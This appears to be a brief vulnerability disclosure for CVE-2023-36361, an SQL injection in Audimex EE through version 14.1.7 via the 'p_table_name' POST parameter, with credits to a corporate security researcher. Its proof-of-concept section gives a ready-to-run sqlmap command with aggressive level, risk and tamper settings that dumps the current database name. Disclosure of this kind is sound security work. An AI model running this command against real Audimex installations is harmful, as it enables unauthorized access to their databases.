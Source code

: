 # CVE-2023-36361
SQL Injection vulnerability found in AudimexEE version 14.1.7 allows an attacker to execute arbitrary SQL commands via the POST parameter "p_table_name". 
# Affected Product & Version
Audimex EE <= 14.1.7 
# PoC
SQLMap exploit: sqlmap -r sqli1.txt --level 5 --risk 3 --tamper=space2comment --batch --current-db
<img width="810" alt="screenshot-CVE-2023-36361" src="https://github.com/user-attachments/assets/69a416f6-a00f-4721-8bb1-2d2d2677421f" />
# Credits
This vulnerability was discovered by Leo Georget of Henkel Cyber Security team.
